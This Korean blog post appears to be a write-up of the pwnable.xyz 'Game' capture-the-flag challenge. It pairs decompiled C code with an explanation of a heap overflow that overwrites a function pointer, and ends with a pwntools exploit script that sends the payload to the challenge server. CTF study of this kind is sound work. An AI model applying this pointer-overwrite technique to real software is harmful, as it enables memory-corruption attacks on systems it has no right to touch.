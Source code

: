 ```yaml
---
title: "[pwnable.xyz]Game"
date: 2020-1-26
ctf: Pwnable.xyz
layout: post
---
```


메인이다. 메뉴는 총 4개가 있다.

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  const char *v3; // rdi
  signed int v4; // eax

  setup();
  v3 = "Shell we play a game?";
  puts("Shell we play a game?");
  init_game();
  while ( 1 )
  {
    while ( 1 )
    {
      print_menu(v3, argv);
      v3 = "> ";
      printf("> ");
      v4 = read_int32();
      if ( v4 != 1 )
        break;
      (*(cur + 3))();
    }
    if ( v4 > 1 )
    {
      if ( v4 == 2 )
      {
        save_game();
      }
      else
      {
        if ( v4 != 3 )
          goto LABEL_13;
        edit_name();
      }
    }
    else
    {
      if ( !v4 )
        exit(1);
LABEL_13:
      v3 = "Invalid";
      puts("Invalid");
    }
  }
}
```

우선 `init_game` 함수를 보면 *cur에 name입력받은 16바이트 저장한다. 그리고 *(cur+3)에 play_game함수를 저장한다.

```c
char *init_game()
{
  char *result; // rax

  saves[0] = malloc(32uLL);
  cur = find_last_save();
  printf("Name: ");
  read(0, cur, 16uLL);
  result = cur;
  *(cur + 3) = play_game;
  return result;
}
```

이 함수는 별거 없다.

```c
unsigned __int64 play_game()
{
  __int16 v0; // dx
  __int16 v1; // dx
  __int16 v2; // dx
  __int16 v3; // dx
  int fd; // [rsp+Ch] [rbp-124h]
  int v6; // [rsp+10h] [rbp-120h]
  unsigned int buf; // [rsp+14h] [rbp-11Ch]
  unsigned int v8; // [rsp+18h] [rbp-118h]
  unsigned __int8 v9; // [rsp+1Ch] [rbp-114h]
  char s; // [rsp+20h] [rbp-110h]
  unsigned __int64 v11; // [rsp+128h] [rbp-8h]

  v11 = __readfsqword(0x28u);
  fd = open("/dev/urandom", 0);
  if ( fd == -1 )
  {
    puts("Can't open /dev/urandom");
    exit(1);
  }
  read(fd, &buf, 0xCuLL);
  close(fd);
  v9 &= 3u;
  memset(&s, 0, 0x100uLL);
  snprintf(&s, 0x100uLL, "%u %c %u = ", buf, ops[v9], v8);
  printf("%s", &s);
  v6 = read_int32();
  if ( v9 == 1 )
  {
    if ( buf - v8 == v6 )
      v1 = *(cur + 8) + 1;
    else
      v1 = *(cur + 8) - 1;
    *(cur + 8) = v1;
  }
  else if ( v9 > 1 )
  {
    if ( v9 == 2 )
    {
      if ( buf / v8 == v6 )
        v2 = *(cur + 8) + 1;
      else
        v2 = *(cur + 8) - 1;
      *(cur + 8) = v2;
    }
    else if ( v9 == 3 )
    {
      if ( v8 * buf == v6 )
        v3 = *(cur + 8) + 1;
      else
        v3 = *(cur + 8) - 1;
      *(cur + 8) = v3;
    }
  }
  else if ( !v9 )
  {
    if ( v8 + buf == v6 )
      v0 = *(cur + 8) + 1;
    else
      v0 = *(cur + 8) - 1;
    *(cur + 8) = v0;
  }
  return __readfsqword(0x28u) ^ v11;
}
```

`save_game ` 함수는 청크를 복사해준다.

```c
int save_game()
{
  _QWORD *v0; // rcx
  __int64 v1; // rdx
  __int64 v2; // rdx
  __int64 v3; // rax
  signed int i; // [rsp+Ch] [rbp-4h]

  for ( i = 1; i <= 4; ++i )
  {
    if ( !saves[i] )
    {
      saves[i] = malloc(32uLL);
      v0 = saves[i];
      v1 = *(cur + 1);
      *v0 = *cur;
      v0[1] = v1;
      *(saves[i] + 16) = *(cur + 8);
      *(saves[i] + 24) = play_game;
      v2 = i;
      v3 = saves[v2];
      cur = saves[v2];
      return v3;
    }
  }
  LODWORD(v3) = puts("Not enough space.");
  return v3;
}
```

edit_name() 함수에서는 name만큼 값을 쓸 수 있다.

```c
ssize_t edit_name()
{
  size_t v0; // rax

  v0 = strlen(cur);
  return read(0, cur, v0);
}
```

구조체는 name, score, fucntion *ptr 이런식으로 되있을 거다.

익스할 때 처음에 일단 name에서 16개를 꽉 채워서 보내는 이유는 size와 합쳐져서 널 바이트를 없애 3번 메뉴에서 더 많이 받을 수 있다.

우선 1번 메뉴 play를 해서 지면 score이 -1이 된걸 볼 수 있는데 디버깅해보면 값은 0xffff가 들어간다. 이제 save로 복사하면 새로운 청크가 생기면서 값들이 복사된다. 여기서0xffffffffffffffff가 들어간다. 

그래서 name(16) + 0xffffffffffffffff(8) + 0x0400aca(3) 이렇게 된다. 그래서 우리는 총 27바이트를 입력할 수 있다. 이제 0x0400aca를 덮을 수 있다. 3바이트를 덮을 수 있으니까 0x4009d6주소인 win으로 덮으면 1번 메뉴 실행할 때마다 win함수가 실행될거다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
#p = process('./challenge')
p = remote('svc.pwnable.xyz',30009)

p.sendafter(':','A'*16) # name
p.sendlineafter('>','1') # play
p.sendafter('=','1') # anything
p.sendlineafter('>','2') # save
p.sendlineafter('>','3') # read(0,cur,sizeof(cur))
payload = 'A'*24 + p16(0x9d6) # size -> 2byte & 0x4009d6 -> win();
p.send(payload)

p.interactive()
```

